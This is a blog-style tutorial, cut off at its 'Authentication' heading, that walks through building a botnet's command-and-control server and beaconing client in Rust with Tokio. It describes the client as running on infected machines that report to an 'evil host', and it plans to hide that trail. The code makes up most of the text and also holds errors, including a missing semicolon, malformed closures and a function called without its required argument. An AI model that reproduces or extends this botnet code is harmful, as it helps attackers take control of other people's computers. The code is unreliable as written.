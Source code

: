 ```yaml
---
layout: post
title: "Building a Botnet in Rust"
date: 2025-2-20 12:00.00 -0600
categories: cybersecurity
---
```


In this fun and informational guide, I will show and guide you through some of the basic prinicpals of building your own botnet! I had this idea a while ago and now that
my Rust skills are better-than-none, I feel confident in my ability to make a cool project like this. Like always, using this or software like this on machines that are not yours (or on targets that are not yours, as you will see later) is completely illegal! My goal is to have fun, so don't be a loser and ruin it for me.

# The Basics

What is a botnet? How might I get started. A botnet, if you didn't know, is really just a network of computers controlled by some other computer/computers.
In this tutorial, I will create a botnet with a really easy server/client model, where every infected machine reports to one central server for commands. Sounds easy enough, right?

> All the code in this tutorial assumes that you are semi-competent at Rust. There is nothing crazy or too out there, but you should be familiar with the Tokio RunTime and Async.

# Getting a Connection

TCP or UDP is the big question when it comes to networking. I prefer TCP over UDP for these applications for several reasons, and it typically has to do with the client. Some operating systems and configurations require special firewall permissions to get a UDP socket, while acting as the client in a TCP connection does not require any special configuration. This means that an infected machine can easily get a connection back to our evil host!

We will start with some work on the host machine, creating a TcpListener to open up a socket and start listening for connections.

{% highlight rust %}

// Keep in mind, we are using the tokio runtime here, so get your tokio imports down.
use std::error::Error;
use tokio::net::{TcpListener, TcpStream};

#[tokio::main]
async fn main() -> Result<(), Box<dyn Error>> {
let listener = TcpListener::bind("0.0.0.0:8080").await? // Get a TcpListener on port 8080

    loop {
        let (socket, _) = listener.accept().await?;

        tokio::spawn(async move{
            handle_conn(socket).await;
        })
    }

}

{% endhighlight %}

Notice a few quick things here: we have a function to handle our connection, and we ignoring something when we destructure into socket. We are ignoring the peer SockAddr.

> For those unfamiliar with Tokio or Rust networking, this creates a new task in parallel for every new connection.

Now, let's make a function to handle a TcpStream. We will be using 1024 byte buffers for messages between the server and client. This stipulation is important for later when we get to control server authentication.

{% highlight rust %}
async fn handle_conn(mut stream: TcpStream) {
    let (mut reader, mut writer) = stream.split();

    let mut buf = vec![0u8; 1024];

    let n = reader.read(&mut buf).await.expect("Failed to read from reader");
    // Remember, this function is being ran in a tokio task.
    // When a pask panic!s, the task just ends and causes no issues.
    // So we don't worry about good error handling that much.

    println!("Recieved from client: {}", String::from_utf8_lossy(&buf[..]));

    // Now a little bit of work to ensure that our message is always 1024 bytes.
    // The message being sent, the command, will be set as a command line argument.
    // So that we can easily deploy an action with just notbotcontrol "do whatever" in the terminal.

    // Sets all bytes in buf to 0 again
    for (index, val) in buf.iter_mut().enumerate() {
        *val = 0;
    }

    // Sets the buffer with the arg (dont worry about
    // the actual cl argument yet, we will get there later.)
    let arg = String::from("My command!");
    arg.into_bytes().iter().enumerate().for_each(|index, &val| {
        buf[index] = val;
    });

    writer.write_all(&buf[..]).await.expect("Writer Failed");

    writer.shutdown().await;

}

{% endhighlight %}

Here we have a basic TCP server set up, taking in a message and responding with its own. Perfect!

Now let's get to the client.

A feature we will for sure need in our client is the ability to continiously connect to a server. With our current model, the server is not continuously running, rather it is just responding when
up. For this, let's make a helper function to always attempt for a connection.

{% highlight rust %}
use tokio::time::{sleep, Duration};
use tokio::net::TcpStream;

const CONTROL: &str = "127.0.0.1:8080"; // Ip of control server
// We will talk about covering this trail later.

async fn get_stream() -> TcpStream {
    loop {
        match TcpStream::connect(CONTROL).await {
            Ok(s) => return s,
            Err(_) => {
                sleep(Duration::from_millis(5000)).await;
            }
        }
    }
}

{% endhighlight %}

The principal is pretty simple: if we get a stream return it, if not we sleep for 5 seconds and try again until we do get it.

Let's get a message.

{% highlight rust %}
#[tokio::main]
async fn main() {

    // Start a communication loop
    loop {
        sleep(Duration::from_millis(5000)).await;

        let mut stream = get_stream().await;
        let (mut reader, mut writer) = stream.split();

        // Every time we use a reader or writer, we need to check for an error
        // that prompts us to reconnect to the control server.

        if let Err(_) = writer.write_all(b"Hello!").await {
            let _ = writer.shutdown().await;
            continue;
        }

        let mut buf = vec![0u8; 1024];

        // Message

        let message_length = match reader.read_exact(&mut buf).await {
            Ok(n) => n,
            Err(_) => {
                let _ = writer.shutdown().await;
                continue;
            }
        };

        println!("Message from server: {}", String::from_utf8_lossy(&buf[..]));
    }
}

{% endhighlight %}

Just like that, we have communication between server and client. Before we move on, let's make a refactor to the *server* that allows for the passing of command-line arguments to the threads.

{% highlight rust %}

use std::error::Error;
use tokio::net::{TcpListener, TcpStream};
use std::sync::{Arc, Mutex};

#[tokio::main]
async fn main() -> Result<(), Box<dyn Error>> {
    let listener = TcpListener::bind("0.0.0.0:8080").await?; // Get a TcpListener on port 8080
    let args: Arc<Mutex<Vec<String>>> = Arc::new(Mutex::new(std::env::args().collect()));

    loop {
        let (socket, _) = listener.accept().await?;

        tokio::spawn(async move{
            handle_conn(socket).await;
        })
    }

}

async fn handle_conn(mut stream: TcpStream, args: Arc<Mutex<Vec<String>>>) {
    let (mut reader, mut writer) = stream.split();

    let mut buf = vec![0u8; 1024];
    let n = reader.read(&mut buf).await.expect("Failed to read from reader");
    println!("Recieved from client: {}", String::from_utf8_lossy(&buf[..]));

    for (index, val) in buf.iter_mut().enumerate() {
        *val = 0;
    }

    let arg;
    {
        arg = args.lock().unwrap().get(1).expect("No Args").clone();
    }

    arg.into_bytes().iter().enumerate().for_each(|index, &val| {
        buf[index] = val;
    });

    writer.write_all(&buf[..]).await.expect("Writer Failed");

    writer.shutdown().await;

}

{% endhighlight %}

There are obviously alternatives to this solution, this is just how I am implementing this in the case that I want to use more args in the future without *always* cloning.
Do what you want for this.

# Authentication